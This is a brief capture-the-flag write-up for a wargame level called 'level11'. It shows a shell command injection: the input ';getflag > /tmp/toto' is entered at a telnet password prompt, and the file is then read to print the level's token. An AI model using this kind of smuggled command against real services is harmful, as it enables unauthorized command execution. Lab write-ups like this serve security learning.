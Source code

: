 # level11

- Our input is passed in a concatenated shell command so we can try to escape it
    ```sh
    $ telnet 0 5151
    Trying 0.0.0.0...
    Connected to 0.
    Escape character is '^]'.
    Password: ;getflag > /tmp/toto
    ```

- We can find the result in `/tmp/toto` so `$ cat /tmp/toto`
    > Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

